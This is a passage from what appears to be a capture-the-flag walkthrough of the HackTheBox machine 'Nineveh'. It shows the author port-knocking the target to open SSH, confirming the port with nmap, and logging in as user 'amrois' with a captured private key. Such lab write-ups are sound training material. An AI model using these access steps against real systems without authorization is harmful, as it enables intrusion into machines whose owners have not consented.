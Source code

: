 Let's knock number of port to make iptables allow port 22.

```
┌──(Hades㉿10.10.14.5)-[2.6:24.9]~
└─$ knock 10.10.10.43 571 290 911
```

Using `nmap` checking port 22 is open.

```
┌──(Hades㉿10.10.14.5)-[2.6:25.8]~
└─$ nmap -p 22 10.10.10.43                          
<snip>

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.63 seconds
```

Using private key to ssh to the server.

```
┌──(Hades㉿10.10.14.5)-[2.6:25.5]~/walkthrough/hackthebox/nineveh
└─$ ssh -i nineveh.priv amrois@10.10.10.43
<snip>
You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
```